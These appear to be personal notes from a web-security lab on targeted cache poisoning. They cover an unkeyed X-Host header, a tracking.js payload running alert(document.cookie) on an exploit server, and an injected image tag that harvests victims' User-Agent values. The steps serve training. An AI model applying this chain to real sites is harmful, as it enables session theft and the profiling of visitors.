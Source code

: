 Test `X-Host` header with Request:

```http
GET / HTTP/1.1
Host: my.h1-web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
X-HOST: test.net
...
```

And notice in Response:

```html
<script type="text/javascript" src="//test.net/resources/js/tracking.js"></script>
```

Note that `X-HOST: http://test.net` will result in error.

Also notice `Vary: User-Agent`. We will need that too.

Similar to [[Web cache poisoning with multiple headers]] we will prepare the payload on Exploit Server.
	- Set Body to
	```html
	alert(document.cookie)
	```
		- Since we will provide a `.js` file.
	- Set File to: `/resources/js/tracking.js`
	- Store the changes.


Set the `X-Host` header for payload:

```http
-
X-HOST: exploit-my.exploit-server.net
```

If we test this locally it will work. But: `However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.`

Open any post and notice Leave a comment section which allows HTML.

While it's not vulnerable to XSS injection it is vulnerable to HTML injection.

Idea:
- Inject an image that loads with the page sending the request to our exploit server
- Read the logs from other users to get the `User-Agent` header value

Comment: 
```html
<img src="https://exploit-my.exploit-server.net/getmeanagent">
```

Logs:
```
10.0.4.88       2025-03-04 12:03:11 +0000 "GET /getmeanagent HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

